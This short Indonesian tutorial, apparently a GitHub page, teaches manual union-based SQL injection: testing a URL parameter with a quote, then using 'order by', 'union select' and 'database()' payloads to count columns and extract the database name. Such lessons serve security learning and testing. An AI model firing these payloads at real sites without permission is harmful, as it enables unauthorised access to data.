 # Cari Paramter Vulner

Dengan menggunakan petik atau lainnya `'`.
Jika muncul error maka vulner.
Lanjut untuk query injection.

```
?param=1' order by 1--+-
```

Untuk mencari berapa jumlah kolom pada tabel angka satu di urutkan sampai menemukan error.
Setalah menemukan jumlah kolom maka lanjut dengan query untuk menampilkan tempat di mana kolom itu di letakkan.

```
?param=-1' union select 1,2,3--+-
```

Coba untuk menampilkan nama database

```
?param=-1' union select 1,database(),3--+-
```

